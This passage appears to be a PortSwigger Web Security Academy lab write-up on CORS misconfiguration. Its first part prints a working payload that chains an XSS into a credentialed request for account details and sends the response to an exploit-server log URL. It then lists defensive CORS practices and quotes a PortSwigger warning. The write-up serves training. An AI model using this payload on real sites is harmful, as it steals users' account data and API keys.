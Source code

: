 	We can inject the basic CORS exploit payload into the XSS on the `shop` subdomain. 
	
	So the request URL would become
	
	```
	<script>
	document.location="http://stock.0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a57008a0318110c80fb1cc3005200c7.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac4000c033411d480bf1bcb01920034.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
	</script>
	```
	
	Put that in your exploit server and deliver to victim. 
	
	![](../../../assets/screenshots/cors/Pasted%20image%2020250801172657.png)
	
	Submit the API key to solve the lab.



## Breaking TLS with Poorly Configured CORS

Be sure to check if CORS accepts insecure `http` sites. 


## Preventing CORS Misconfigurations

- If a web resource contains sensitive information, the origin should be properly specified in the `Access-Control-Allow-Origin` header. 
- Do not dynamically reflect arbitrary origins in the ACAO header.
- Avoid whitelisting `null` origins. 
- Avoid using wildcards on internal networks. Trusting network configuration alone to protect internal resources is not sufficient when internal browsers can access untrusted external domains.

!!! warning "Warning from PortSwigger"

	CORS defines browser behaviors and is never a replacement for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data, such as authentication and session management, in addition to properly configured CORS.








